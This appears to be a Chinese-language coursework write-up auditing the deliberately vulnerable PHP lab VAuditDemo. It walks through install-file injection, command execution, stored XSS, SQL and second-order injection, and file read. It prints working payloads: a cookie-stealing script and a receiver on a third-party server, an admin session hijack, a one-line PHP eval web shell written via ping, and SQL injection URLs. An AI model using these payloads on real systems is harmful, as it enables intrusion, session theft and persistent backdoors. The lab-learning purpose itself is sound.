# PHP代码审计

靶场 [VAuditDemo](https://github.com/virink/VAuditDemo)

### 安装漏洞

​​

​​

​​

​​

​​

​​

由此可发现，用户前端连接数据库的代码没有进行特殊字符过滤就传入文件操作。所以存在安装漏洞。

​​

<span data-type="text" style="color: var(--b3-font-color10);">这条语句   </span>`dbname=ssss--- -";phpinfo();//`​<span data-type="text" style="color: var(--b3-font-color10);">   除了会出现在php页面，还会出现在SQL语句里,所以要在SQL语句里加SQL的注释，保证SQL语句正常执行，否则SQL执行时会因为   </span>` ";phpinfo();//`​<span data-type="text" style="color: var(--b3-font-color10);">的存在而报错，要把这部分给注释。</span>

​​

语句被带到数据库执行，若报错，install.php也会报错

​​

​​

​​

‍

​​

### 命令执行漏洞

自动审计，发现命令执行漏洞。

​​

溯源找到源码

​​

验证其存在。

​​

### 存储型XSS

1、XSS漏洞审计过程及思路，同时使用存储型XSS获取管理员cookie到第三方服务器中，利用cookie登录管理员账号，获取shell (ping.php)

​​

​​

​​

​​

通过普通用户登录时抓包，在client-ip 中写payload。

​​

当管理员打开用户管理界面时获取到cookie，实际情况应该将cookie发送到第三方服务器。但是引号’‘’总是被过滤

​​

写入第三方服务器方法

在第三方服务器创建两个文件

​​

​​

```js
//getcookie.js
let cookie = document.cookie
let last = ''
document.write(last);
```

```php
//getcookie.php
<?php  
$cookie = $_GET['cookie'];  
file_put_contents('cookies.txt', $cookie . "\n", FILE_APPEND);  
?>
```

留言页面从client_ip获取ip时注入XSS，script代码执行。注意src可以不写”“。所以绕过’‘”的方法就是不写'"

​​

script请求了第三方服务器的js文件，js代码执行将img标签写入页面，img渲染时请求，并将cookie以get方式携带出去。

​​

在第三方服务器接收get请求，并将cookie值写入文件。

​​

到此，管理员cookie被获取。

​​

‍

#### 盗用cookie登录admin

PHPSESSID=b4nhbnmd455rv1cdfbap5dlig1

http://localhost/admin/manageUser.php

把浏览器cookie清空。

​​

配置管理员cookie。当cookie不对时找不到。

​​

使用正确的管理员cookie后进入管理员界面。

​​

获取shell，利用ping里的命令执行。

​​

```payload
xx || echo ^<?php @eval($_POST[cmd]); ?^> > ../shell.php
?、<、>等字符在cmd中有特殊含义，会被转义
```

使用上方命令写个后门。

​​

​​

Ant连接。

​​

### SQL注入

2、审计靶场中的SQL注入（不设上限，最少1个）

搜下和数据库连接相关文件。

​​

在通过数据库查询数据库详细信息的messageDetail.php页面，查询参数通过sqlwaf过滤不严格导致sql注入。

​​

```payload
http://localhost/messageDetail.php?id=7%20uni||on%20sele||ct%20database(),user(),version(),4#
```

​​

### 二次注入

​​

查看留言提交界面发现，数据仅用clean_message函数过滤。而在该函数里又调用`mysql_real_escape_string`​过滤。

​​

往下发现用户名从数据库得到，而用户名的过滤同样和message过滤函数一样，使用clean_input函数再调用`mysql_real_escape_string`​过滤。显然用户名过滤也不严格。

​通过查询留言的sql语句即可构造payload，然后再在用户名位置和留言位置构造相应语句即可实现注入。

​​

注册用户，并用\转义掉一个’，后面#注释掉一个‘。

​​

```payload
,database(),now())#
```

​​

作业： 1、审计靶场内的任意文件读取漏洞，说明其思路和验证方式

### 任意文件读取漏洞

file\_get\_contents() 函数在文件操作中的主要作用是读取本地文件的内容

​​

file\_get\_contents() 函数在文件操作中的主要作用是读取本地文件的内容

​​

全局搜索session

​​

转到logcheck.php

​​

转到regcheck.php

​​

转到updateavatar.php

​​

转到$_FILE

​​

转到is_pic()

​​

```sql
UPDATE users SET user_avatar = '$avatar' WHERE user_id = '{$_SESSION['user_id']}'
UPDATE users SET user_avatar ='1.png',user_avatar='login.php' WHERE user_name='111' -- .jpg' WHERE user_id = '{$_SESSION['user_id']}'
#前面的1.png用于闭合单引号，再写一个user_avatar='login.php'用于覆盖前面的1.png，最后的-- 用于注释后面的语句，由于is_pic()要检查文件后缀，所以最后要带上.jpg
```

构造poayload发送

​​

头像路径已被更改。

​​

<span data-type="text" style="color: var(--b3-font-color10);">重新登录</span>刷新后访问http://localhost/user/avatar.php，抓包查看。

​​

‍
